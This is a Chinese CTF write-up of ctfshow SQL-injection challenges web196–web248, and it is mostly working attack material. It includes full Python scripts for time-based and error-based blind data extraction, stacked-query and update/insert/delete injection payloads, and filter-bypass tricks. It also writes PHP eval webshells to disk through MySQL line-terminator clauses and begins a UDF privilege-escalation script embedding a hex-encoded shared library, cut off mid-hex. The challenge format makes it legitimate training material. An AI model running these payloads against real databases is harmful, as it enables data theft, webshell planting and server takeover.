0;update`ctfshow_user`set`pass`=1
```

## web196

限制了字符长度为16，还是可以堆叠注入，`select(1)`回显肯定会1，如果注入的话，那服务器查到的密码也为1，那么我们就可以拿到flag了

```sql
0;select(1)
```

## web197–web200

```sql
0;show tables;
```

原理一样的，密码就是表名，表名已知

```sql
0;alter table ctfshow_user drop pass;alter table ctfshow_user add pass int default 1

0;insert ctfshow_user(`username`,`pass`) value(1,2)
```

如果修改数据的话，确实是会报密码错误，但是还是成功修改了

## web214

参数根本拿不到，也没说，问了一下群友，知道一个工具拿来用用

```
pip3 install arjun

arjun -u http://53f33753-1c7d-4c6b-94e9-8a52d19c9b97.challenge.ctf.show/api -m POST
```

搞不出来，F12找到`select.js`才知道参数，写个脚本，然后卡了一个小时，发现我今天Windows有点问题，这个账我要算到PYCC头上，傻逼比赛，后面发现是我代理问题，延迟高了也影响了，确实满足时间盲注的特点

```python
import requests
import time

url = "http://58298b04-11de-449f-b7a0-aab7810ed179.challenge.ctf.show/api/"

target=""
i=0
right_time=3

while True:
    i+=1
    head=32
    tail=127
    while head+1<tail:
        mid=(head + tail) >> 1
        # payload="if((ascii(substr((select database()),{0},1)))<{1},sleep(5),0)#".format(i,mid)
        # payload = "if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},sleep(5),0)#".format(
        #     i, mid)
        # ctfshow_flagx,ctfshow_info
        # payload = "if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{0},1)))<{1},sleep(5),0)#".format(
        #     i, mid)
        # id,flaga
        payload = "if((ascii(substr((select flaga from ctfshow_flagx),{0},1)))<{1},sleep(5),0)#".format(
            i, mid)
        
        # print(payload)
        data={
            "ip":payload,
            "debug":0
        }
        start_time=time.time()
        r=requests.post(url,data)
        last_time=time.time()-start_time
        if last_time>right_time:
            tail=mid
            # print("right")
        else:
            head=mid
            # print("wrong")

    if head!=32:
        target+=chr(head)
        print(target)
    else:
        break
    print(target)
```

## web215

还是先传参`ip=1&debug=1`看到查询语句，想办法给闭合了，写出脚本

```python
import requests
import time

url = "http://653a1b2b-6829-4f6b-bc54-83e0ba08d177.challenge.ctf.show/api/"

target=""
i=0
right_time=3

while True:
    i+=1
    head=32
    tail=127
    while head+1<tail:
        mid=(head + tail) >> 1
        # payload="-1' or if((ascii(substr((select database()),{0},1)))<{1},sleep(5),0)#".format(i,mid)
        # payload = "-1' or if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},sleep(5),0)#".format(
        #     i, mid)
        # ctfshow_flagxc
        # payload = "-1' or if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{0},1)))<{1},sleep(5),0)#".format(
        #     i, mid)
        # id,flagaa
        payload = "-1' or if((ascii(substr((select flagaa from ctfshow_flagxc),{0},1)))<{1},sleep(5),0)#".format(
            i, mid)

        # print(payload)
        data={
            "ip":payload,
            "debug":0
        }
        start_time=time.time()
        r=requests.post(url,data)
        last_time=time.time()-start_time
        if last_time>right_time:
            tail=mid
            # print("right")
        else:
            head=mid
            # print("wrong")

    if head!=32:
        target+=chr(head)
        print(target)
    else:
        break
    print(target)
```

## web216

看到查询语句里面是有`from_base64`，编码一下，闭合，改改payload

```python
import requests
import time

url = "http://013f68f0-6427-4155-9175-8e1a6229c223.challenge.ctf.show/api/"

target=""
i=0
right_time=3

while True:
    i+=1
    head=32
    tail=127
    while head+1<tail:
        mid=(head + tail) >> 1
        # payload="'MQ==') or if ((ascii(substr((select database()),{0},1)))<{1},sleep(5),0)#".format(i,mid)
        # payload = "'MQ==') or if ((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},sleep(5),0)#".format(
        #     i, mid)
        # ctfshow_flagxcc
        # payload = "'MQ==') or if ((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'),{0},1)))<{1},sleep(5),0)#".format(
        #     i, mid)
        # id,flagaac
        payload = "'MQ==') or if ((ascii(substr((select flagaac from ctfshow_flagxcc),{0},1)))<{1},sleep(5),0)#".format(
            i, mid)

        # print(payload)
        data={
            "ip":payload,
            "debug":0
        }
        start_time=time.time()
        r=requests.post(url,data)
        last_time=time.time()-start_time
        if last_time>right_time:
            tail=mid
            # print("right")
        else:
            head=mid
            # print("wrong")

    if head!=32:
        target+=chr(head)
        print(target)
    else:
        break
    print(target)
```

## web217

`sleep`没了，用`benchmark`绕过一下就好了`BENCHMARK(25000000, SHA2('test', 512))`这样子差不多就是5s



```python
import requests
import time

url = "http://c1d1ee9a-2ee5-427a-ae6b-6b8ffd4fd40f.challenge.ctf.show/api/"

target=""
i=0
right_time=3

while True:
    i+=1
    head=32
    tail=127
    while head+1<tail:
        mid=(head + tail) >> 1
        # payload="1) or if ((ascii(substr((select database()),{0},1)))<{1},BENCHMARK(25000000, SHA2('test', 512)),0)#".format(i,mid)
        # payload = "1) or if ((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},BENCHMARK(25000000, SHA2('test', 512)),0)#".format(
        #     i, mid)
        # ctfshow_flagxccb
        # payload = "1) or if ((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'),{0},1)))<{1},BENCHMARK(25000000, SHA2('test', 512)),0)#".format(
        #     i, mid)
        # id,flagaabc
        payload = "1) or if ((ascii(substr((select flagaabc from ctfshow_flagxccb),{0},1)))<{1},BENCHMARK(25000000, SHA2('test', 512)),0)#".format(
            i, mid)

        # print(payload)
        data={
            "ip":payload,
            "debug":0
        }
        start_time=time.time()
        r=requests.post(url,data)
        last_time=time.time()-start_time
        if last_time>right_time:
            tail=mid
            # print("right")
        else:
            head=mid
            # print("wrong")

    if head!=32:
        target+=chr(head)
        print(target)
    else:
        break
    print(target)
```

但是这东西明显慢很多了

## web218

`benchmark`没了，这里使用正则回溯达到延时(这么S?)

`RPAD(1, 999999, 'a')` 会创建一个包含1个"1"和999998个"a"的字符串，`concat`连接巨大字符串，并且正则表达式是贪婪的，所以回溯就会很久



```python
import requests
import time

url = "http://cb28e2bd-e328-4c20-bbe7-274d23befca5.challenge.ctf.show/api/"

target=""
i=0
right_time=0.8
sleep="(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b')"

while True:
    i+=1
    head=32
    tail=127
    while head+1<tail:
        mid=(head + tail) >> 1
        # payload="1) or if ((ascii(substr((select database()),{0},1)))<{1},{2},0)#".format(i,mid,sleep)
        # payload = "1) or if ((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},{2},0)#".format(
        #     i, mid,sleep)
        # ctfshow_flagxc
        # payload = "1) or if ((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{0},1)))<{1},{2},0)#".format(
        #     i, mid,sleep)
        # id,flagaac
        payload = "1) or if ((ascii(substr((select flagaac from ctfshow_flagxc),{0},1)))<{1},{2},0)#".format(
            i, mid,sleep)

        # print(payload)
        data={
            "ip":payload,
            "debug":0
        }
        start_time=time.time()
        r=requests.post(url,data)
        last_time=time.time()-start_time
        if last_time>right_time:
            tail=mid
            # print("right")
        else:
            head=mid
            # print("wrong")

    if head!=32:
        target+=chr(head)
        print(target)
    else:
        break
    print(target)
```

虽然延时不长，但是可以看出结果并没有错误

## web219

笛卡尔积，当表没有指定连接条件(`join`)时，数据库会执行笛卡尔积操作，笛卡尔积的结果行数 = 每个表的行数相乘

```sql
select (SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I);
```

本地尝试效果不是特别好，因为我数据库比较小

```python
import requests
import time

url = "http://7cafa34f-18aa-4753-b381-e634e88e709c.challenge.ctf.show/api/"

target=""
i=0
right_time=0.8
sleep="(SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I)"

while True:
    i+=1
    head=32
    tail=127
    while head+1<tail:
        mid=(head + tail) >> 1
        # payload="1) or if ((ascii(substr((select database()),{0},1)))<{1},{2},0)#".format(i,mid,sleep)
        # payload = "1) or if ((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},{2},0)#".format(
        #     i, mid,sleep)
        # ctfshow_flagxca
        # payload = "1) or if ((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxca'),{0},1)))<{1},{2},0)#".format(
        #     i, mid,sleep)
        # id,flagaabc
        payload = "1) or if ((ascii(substr((select flagaabc from ctfshow_flagxca),{0},1)))<{1},{2},0)#".format(
            i, mid,sleep)

        # print(payload)
        data={
            "ip":payload,
            "debug":0
        }
        start_time=time.time()
        r=requests.post(url,data)
        last_time=time.time()-start_time
        if last_time>right_time:
            tail=mid
            # print("right")
        else:
            head=mid
            # print("wrong")

    if head!=32:
        target+=chr(head)
        print(target)
    else:
        break
    print(target)
```

## web220

还是用笛卡尔积，但是过滤了好多函数，我们用其他函数来绕过一下，所以我们二分法也用不了了，只能遍历了，改改脚本，这里可以用`left\right\mid\substring`，只不过切片的写法和结果不同，还有一个注意的点就是这几个函数都不能和`group_concat`共用

```sql
(left((select flagaabcc from ctfshow_flagxcac limit 0,1),3) = 'ctf'
(right((select flagaabcc from ctfshow_flagxcac limit 0,1), 1) = 'c'
(mid((select flagaabcc from ctfshow_flagxcac limit 0,1),1,1)='c'
(substring((select flagaabcc from ctfshow_flagxcac limit 0,1),1,3)='ctf'
```

```python
import requests
import time
import string

url = "http://7630ebf6-7c41-4d1c-9c58-d11e3fdc7946.challenge.ctf.show/api/"

target=""
i=0
right_time=0.8
sleep="(SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I)"
strings="_-{}"+string.ascii_uppercase+string.ascii_lowercase+string.digits

for i in range(1,50):
    found = False
    for s in strings:
        temp_target = target + s
        # payload = "1) or if((left((select database()),{0})='{1}'),{2},0)-- +".format(
        #     i, temp_target, sleep)
        # ctfshow
        # payload = "1) or if((left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0})='{1}'),{2},0)-- +".format(
        #     i, temp_target, sleep)
        # ctfshow_flagxcac
        # payload = "1) or if((left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{0})='{1}'),{2},0)-- +".format(
        #     i, temp_target, sleep)
        # flagaabcc
        payload = "1) or if((left((select flagaabcc from ctfshow_flagxcac limit 0,1),{0})='{1}'),{2},0)-- +".format(
            i, temp_target, sleep)
        # print(payload)
        data = {
            "ip": payload,
            "debug": 0
        }
        start_time = time.time()
        r = requests.post(url, data)
        last_time = time.time() - start_time
        if last_time > right_time:
            # print("gogogo")
            target=temp_target
            print(target.lower())
            found = True
            break

    print(target.lower())


```

## web221

limit注入，有版本限制，当时wolvctf2025的时候我看过一篇[文章](https://lightless.me/archives/111.html)，算是浅浅的了解了一下，主要就是利用报错注入和时间盲注，写写payload

```sql
SELECT User FROM user WHERE Host >0 ORDER BY Host LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 

SELECT User FROM user WHERE Host >0 ORDER BY Host LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000000,SHA1(1)),1))))),1);
```



打入即可

```
?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1)
```

```
?page=1&limit=1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,BENCHMARK(10000000,SHA1(1)))),1)


?page=1&limit=1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000000,SHA1(1)),1))))),1);
```

但是好像没有select，所以不成功，不然也不会只让拿库名了，报错可以直接打到所有

## web222

有两种方法，一种是报错一种是sleep

```sql
select concat(sleep(0.10),1);
select concat(if(1=2,"username",cot(0)));
```

```
/api/?u=concat((if(ascii(substr((select database()),1,1))<100, sleep(0.05), 0)), 1)
/api/?u=concat((if(ascii(substr((select database()),1,1)<100), sleep(0.05),0)),1)

/api/?u=concat((if(ascii(substr((select database()),1,1))<100, 1, cot(0))), 1)
```

写个脚本

```python
import requests

url="http://333e3c35-f236-4d29-b6e1-65d85739e14f.challenge.ctf.show/api/?u="
i=0
target=""

while True:
    i+=1
    head =32
    tail=127
    while head+1< tail:
        mid=(head+tail)//2
        # payload="concat((if(ascii(substr((select database()),{0},1))<{1}, 1, cot(0))), 1)".format(i,mid)
        # ctfshow_web
        # payload = "concat((if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),{0},1))<{1}, 1, cot(0))), 1)".format(
        #     i, mid)
        # ctfshow_flaga
        # payload = "concat((if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'),{0},1))<{1}, 1, cot(0))), 1)".format(
        #     i, mid)
        # id,flagaabc,info
        payload = "concat((if(ascii(substr((select flagaabc from ctfshow_flaga),{0},1))<{1}, 1, cot(0))), 1)".format(
            i, mid)

        # print(payload)
        r=requests.get(url=url+payload)
        # print(r.text)
        if "pass" in r.text:
            tail=mid
        else:
            head=mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
    print(target)
```

时间盲注的脚本也是随便写，这里我就不写了

## web223

把数字过滤了，而且我好像写`cot(false)`也不能成功，换了一种payload，`if(true,username,'a')`

```python
import requests

url="http://2504134b-26db-45be-a355-a67ef4c37b8b.challenge.ctf.show/api/"
i=0
target=""

def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
        return num

while True:
    i+=1
    head =32
    tail=127
    while head+1< tail:
        mid=(head+tail)//2
        position=createNum(i)
        Mid_True=createNum(mid)

        mid=(head+tail)//2
        # payload="if(ascii(substr((database()),{0},true))<{1},username,false)".format(position,Mid_True)
        # ctfshow_web
        # payload = "if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),{0},true))<{1},username,false)".format(
        #     position, Mid_True)

        # ctfshow_flagas
        # payload = "if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'),{0},true))<{1},username,false)".format(
        #     position, Mid_True)
        # id,flagasabc
        payload = "if(ascii(substr((select flagasabc from ctfshow_flagas),{0},true))<{1},username,false)".format(
            position,Mid_True)

        # print(payload)
        params={"u":payload}
        r=requests.get(url,params)
        # print(r.text)
        if "passwordAUTO" in r.text:
            tail=mid
        else:
            head=mid

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
    print(target)
```

## web224

访问`/robots.txt`，得到` /pwdreset.php`，上传恶意bin文件实现getshell，看文件知道注入的问题

```php
<?php
error_reporting(0);

if ($_FILES["file"]["error"] > 0) {
    die("Return Code: " . $_FILES["file"]["error"] . "<br />");
}

if ($_FILES["file"]["size"] > 10 * 1024) {
    die("文件过大: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />");
}

if (file_exists("upload/" . $_FILES["file"]["name"])) {
    echo $_FILES["file"]["name"] . " already exists. ";
} else {
    $filename = md5(md5(rand(1, 10000))) . ".zip";
    $filetype = (new finfo)->file($_FILES['file']['tmp_name']);
    
    if (preg_match("/image|png|bmap|jpg|jpeg|application|text|audio|video/i", $filetype)) {
        die("file type error");
    }
    
    $filepath = "upload/" . $filename;
    $sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('" . $filename . "','" . $filepath . "','" . $filetype . "');";
    
    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename);
    
    $con = mysqli_connect("localhost", "root", "root", "ctf");
    if (!$con) {
        die('Could not connect: ' . mysqli_error());
    }
    
    if (mysqli_multi_query($con, $sql)) {
        header("location:filelist.php");
    } else {
        echo "Error: " . $sql . "<br>" . mysqli_error($con);
    }
    
    mysqli_close($con);
}
?>
```

那这个闭合就完事了

## web225

SUCTF2019的一道题我记得是

```
/api?username=-1';show tables;--+
/api?username=-1';handler `ctfshow_flagasa` open;handler `ctfshow_flagasa` read first;--+
```

还是比较S的姿势当时

## web226

使用`prepare`预编译一个语句，再`execute`执行

```
/api/?username=-1';PREPARE abcd from 0x73686f772020646174616261736573;execute abcd;#
 
/api/?username=-1';PREPARE abcd from 0x73686F77207461626C6573;execute abcd;#

/api/?username=-1';PREPARE abcd from 0x73656C656374202A2066726F6D2063746673685F6F775F666C61676173;execute 
abcd;#
```

## web227

`Routines` 是information_schema中的一个表，存储所有存储过程和函数的定义信息

```sql
SELECT * FROM information_schema.Routines WHERE ROUTINE_NAME = 'sp_name';
```

```
/api/?username=-1';PREPARE abcd from 0x73656C656374202A2066726F6D20696E666F726D6174696F6E5F736368656D612E526F7574696E6573;execute 
abcd;#
```

## web228

```
/api/?username=-1';PREPARE a from 0x73656C656374202A2066726F6D2063746673685F6F775F666C616761736161
;execute a;#
```

## web229

```
/api/?username=-1';PREPARE abcd from 0x73686f772020646174616261736573;execute abcd;#
 
/api/?username=-1';PREPARE abcd from 0x73686F77207461626C6573;execute abcd;#

/api/?username=-1';PREPARE abcd from 0x73656c656374202a2066726f6d20666c6167;execute 
abcd;#
```

## web230

```
/api/?username=-1';PREPARE abcd from 0x73656c656374202a2066726f6d20666c61676161626278;execute 
abcd;#
```

## web231

路由是`/api/`

```sql
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
```

update注入，在改变密码的同时将username也改变，插入Sql语句

```
password=-1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#&username=

password=-1',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga')#&username=

password=-1',username=(select flagas from flaga)#&username=
```

有个槽点就是这个东西只能慢慢的去看回显好像



## web232

闭合md5即可

```
password='),username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#&username=

password='),username=(select  group_concat(column_name) from information_schema.columns where table_name='flagaa')#&username=

password='),username=(select flagass from flagaa)#&username=
```

## web233

由于不能传入`'`，这里我们需要绕过一下，但是还是很简单，我们利用`\`将`'`转义即可

```
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#

password=\&username=,username=(select  group_concat(column_name) from information_schema.columns where table_name='flag233333')#

password=\&username=,username=(select flagass233 from flag233333)#
```

## web234

```
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#

password=\&username=,username=(select  group_concat(column_name) from information_schema.columns where table_name=0x666c6167323361)#

password=\&username=,username=(select flagass23s3 from flag23a)#
```

## web235

用`innodb_index_stats`和`innodb_table_stats`查找表名

```
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#
banlist,ctfshow_user,flag23a1

password=\&username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)#
```

这么看的话可能不是很好看懂，我再写个无列名注入的payload

```
password=\&username=,username=(select target_column from (SELECT 1, 2 AS target_column, 3 UNION SELECT * FROM flag23a1 limit 1,1)temp)#
```

就很容易看懂了

## web236

```
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_index_stats where database_name=database())#

password=\&username=,username=(select b from (select 1,2 as b,3 union select * from flaga limit 1,2)a)#
```

## web237

注入点在`/api/insert.php`

```sql
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```

`insert`注入来插入数据，一个注意的点就是不能覆盖数据，而且要多写个括号来闭合前面的`value`后面的`(`

```
username=1',(select group_concat(schema_name) from information_schema.schemata))#&password=

username=2',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#&password=

username=3',(select group_concat(column_name) from information_schema.columns where table_name='flag'))#&password=

username=3',(select flagass23s3 from flag))#&password=
```

## web238

过滤了空格

```
username=2',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()))#&password=

username=2',(select(group_concat(column_name))from(information_schema.columns)where(table_name)='flagb'))#&password=

username=3',(select(group_concat(flag))from(ctfshow_web.flagb))#&password=
```

## web239

抽象的是不能用注释绕过`/**/`只能用括号，`sys.schema_table_statistics_with_buffer`也不能使用

```
username=5',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name)=database()))#&password=

username=6',((select(b)from(select(1),(2)as(b),(3)union(select(flagbb)limit(0),(1)))a)))#&password=

username=6',(select(group_concat(flag))from(ctfshow_web.flagbb)))#&password=
```

无列名注入也不能成功，直接猜flag

## web240

爆破一下即可

```python
import requests

url="http://62418365-713b-4401-b5bf-514ffc6611f5.challenge.ctf.show/api/insert.php"

for a1 in "ab":
    for a2 in "ab":
        for a3 in "ab":
            for a4 in "ab":
                for a5 in "ab":
                    payload='flag'+a1+a2+a3+a4+a5
                    data={
                        'username':f"1',(select(flag)from({payload})))#",
                        'password':'1'
                    }
                    r=requests.post(url=url,data=data)

```

## web241

```sql
$sql = "delete from  ctfshow_user where id = {$id}";
```

`delete`语句本身不会返回数据，所以我们这里需要进行时间盲注

```python
import requests
import time

url = "http://027f52d9-f4d4-400e-abcb-55d154d072e5.challenge.ctf.show/api/delete.php"

target = ""
i = 0
right_time = 0.8
sleep="(SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I)"

while True:
    i += 1
    head = 32
    tail = 127
    while head + 1 < tail:
        mid = (head + tail) >> 1
        # payload="if((ascii(substr((select database()),{0},1)))<{1},{2},0)#".format(i,mid,sleep)
        # payload = "if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1)))<{1},{2},0)#".format(
        #     i, mid,sleep)
        # banlist,ctfshow_user,flag
        # payload = "if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{0},1)))<{1},{2},0)#".format(
        #     i, mid, sleep)
        # id,flag
        payload = "if((ascii(substr((select flag from flag),{0},1)))<{1},{2},0)#".format(
            i, mid ,sleep)

        # print(payload)
        data = {
            "id": payload,
        }
        start_time = time.time()
        r = requests.post(url, data)
        last_time = time.time() - start_time
        if last_time > right_time:
            tail = mid
            # print("right")
        else:
            head = mid
            # print("wrong")

    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
    print(target)
```

## web242

使用`lines terminated by\lines starting by\FIELDS TERMINATED BY\COLUMNS terminated by`插入恶意webshell

```
filename=1.php' FIELDS TERMINATED BY '<?php eval($_POST[1]); ?>';#

filename=3.php' lines starting by '<?php eval($_POST[1]); ?>';#

filename=4.php' lines terminated by '<?php eval($_POST[1]); ?>';#

filename=8.php' COLUMNS terminated by '<?php eval($_POST[1]); ?>';#
```

## web243

```
filename=.user.ini' lines starting by 'auto_prepend_file=1.txt\n'#

filename=1.txt' lines starting by '<?= eval($_POST[1]);?>'#
```

访问`/demp/`即可getshell



## web244

报错注入开始，`updatexml\extractvalue`，关键词的区别是`extractvalue(1,(查询语句))`和`updatexml(1,(查询语句),1)`，注意括号就好了，路由为`/api/`

```
/api/?id=1' or updatexml(1,concat(0x3d,mid((select group_concat(schema_name) from information_schema.schemata),32,32),0x3d),1)--+

/api/?id=1' or updatexml(1,concat(0x3d,mid((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),1,32),0x3d),1)--+

/api/?id=1' or updatexml(1,concat(0x3d,mid((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flag'),1,32),0x3d),1)--+

/api/?id=1' or updatexml(1,concat(0x3d,mid((select group_concat(flag) from ctfshow_flag),1,32),0x3d),1)--+

/api/?id=1' or updatexml(1,concat(0x3d,mid((select group_concat(flag) from ctfshow_flag),32,32),0x3d),1)--+
```

## web245

```
/api/?id=1' or extractvalue(1,concat(0x3d,mid((select group_concat(schema_name) from information_schema.schemata),32,32),0x3d))--+

/api/?id=1' or extractvalue(1,concat(0x3d,mid((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),1,32),0x3d))--+

/api/?id=1' or extractvalue(1,concat(0x3d,mid((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagsa'),1,32),0x3d))--+

/api/?id=1' or extractvalue(1,concat(0x3d,mid((select group_concat(flag1) from ctfshow_flagsa),1,32),0x3d))--+

/api/?id=1' or extractvalue(1,concat(0x3d,mid((select group_concat(flag1) from ctfshow_flagsa),32,32),0x3d))--+
```

## web246

报错原理：

1. MySQL 在执行 GROUP BY 时，会为每个不同的 group 创建一个临时表
2. `rand()` 会在查询执行过程中多次计算，而不是只计算一次
3. 当 `rand()` 生成的值导致重复的键值出现时，MySQL 试图插入重复键到临时表时会产生错误

所以有时候运气不好需要发好几次包才能成功

```
/api/?id=1' union select 1,count(*),concat(mid((select group_concat(schema_name) from information_schema.schemata),32,32),0x7e,floor(rand()*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat((select schema_name from information_schema.schemata limit 4,1),0x7e,floor(rand()*2))a from information_schema.tables group by a--+
```

`limit\mid\right\left\substring`都是一样的其实，

```
/api/?id=1' union select 1,count(*),concat(mid((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),1,32),0x7e,floor(rand()*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(mid((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flags'),1,32),0x7e,floor(rand()*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(mid((select group_concat(flag2) from ctfshow_flags),1,32),0x7e,floor(rand()*2))a from information_schema.tables group by a--+
```

## web247

> ceil()-向上取整函数
> ceil(x) 返回不小于 x 的最小整数，即向上取整。
> 例如，ceil(3.14) 返回 4。
>
> round() - 四舍五入函数
> round(x) 返回最接近 x 的整数，如果有两个整数与 x 距离相等，则返回偶数的整数。
> 例如，round(3.6) 返回 4，round(3.5) 返回 4，round(3.4) 返回 3。

```
?id=1' union select 1,count(*),concat(mid((select group_concat(schema_name) from information_schema.schemata),32,32),0x7e,round(rand()*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(mid((select group_concat(schema_name) from information_schema.schemata),32,32),0x7e,ceil(rand()*2))a from information_schema.tables group by a--+
```

正常写就行，最后一句有个小细节`flag?`要正确解析需要使用反引号

```
/api/?id=1' union select 1,count(*),concat(mid((select `flag?` from ctfshow_flagsa),1,32),0x7e,ceil(rand()*2))a from information_schema.tables group by a--+

/api/?id=1' union select 1,count(*),concat(mid((select `flag?` from ctfshow_flagsa),32,32),0x7e,ceil(rand()*2))a from information_schema.tables group by a--+
```

## web248

UDF提权

```python
# 参考脚本
# 环境：Linux/MariaDB
import requests

url = 'http://1149521a-f0ba-48c5-adc6-4d6733e6a62e.challenge.ctf.show/api/?id='
code = '7F454C4602010100000000000000000003003E0001000000800A000000000000400000000000000058180000000000000000000040003800060040001C0019000100000005000000000000000000000000000000000000000000000000000000C414000000000000C41400000000000000002000000000000100000006000000C814000000000000C814200000000000C8142000000000004802000000000000580200000000000000002000000000000200000006000000F814000000000000F814200000000000F814200000000000800100000000000080010000000000000800000000000000040000000400000090010000000000009001000000000000900100000000000024000000000000002400000000000000040000000000000050E574640400000044120000000000004412000000000000441200000000000084000000000000008400000000000000040000000000000051E5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000040000001400000003000000474E5500D7FF1D94176ABA0C150B4F3694D2EC995AE8E1A8000000001100000011000000020000000700000080080248811944C91CA44003980468831100000013000000140000001600000017000000190000001C0000001E000000000000001F00000000000000200000002100000022000000230000002400000000000000CE2CC0BA673C7690EBD3EF0E78722788B98DF10ED971581CA868BE12BBE3927C7E8B92CD1E7066A9C3F9BFBA745BB073371974EC4345D5ECC5A62C1CC3138AFF3B9FD4A0AD73D1C50B5911FEAB5FBE1200000000000000000000000000000000000000000000000000000000000000000300090088090000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000CD00000012000000000000000000000000000000000000001E0100001200000000000000000000000000000000000000620100001200000000000000000000000000000000000000E30000001200000000000000000000000000000000000000B90000001200000000000000000000000000000000000000680100001200000000000000000000000000000000000000160000002200000000000000000000000000000000000000540000001200000000000000000000000000000000000000F00000001200000000000000000000000000000000000000B200000012000000000000000000000000000000000000005A01000012000000000000000000000000000000000000005201000012000000000000000000000000000000000000004C0100001200000000000000000000000000000000000000E800000012000B00D10D000000000000D1000000000000003301000012000B00A90F0000000000000A000000000000001000000012000C00481100000000000000000000000000007800000012000B009F0B0000000000004C00000000000000FF0000001200090088090000000000000000000000000000800100001000F1FF101720000000000000000000000000001501000012000B00130F0000000000002F000000000000008C0100001000F1FF201720000000000000000000000000009B00000012000B00480C0000000000000A000000000000002501000012000B00420F0000000000006700000000000000AA00000012000B00520C00000000000063000000000000005B00000012000B00950B0000000000000A000000000000008E00000012000B00EB0B0000000000005D00000000000000790100001000F1FF101720000000000000000000000000000501000012000B00090F0000000000000A00000000000000C000000012000B00B50C000000000000F100000000000000F700000012000B00A20E00000000000067000000000000003900000012000B004C0B0000000000004900000000000000D400000012000B00A60D0000000000002B000000000000004301000012000B00B30F0000000000005501000000000000005F5F676D6F6E5F73746172745F5F005F66696E69005F5F6378615F66696E616C697A65005F4A765F5265676973746572436C6173736573006C69625F6D7973716C7564665F7379735F696E666F5F696E6974006D656D637079006C69625F6D79737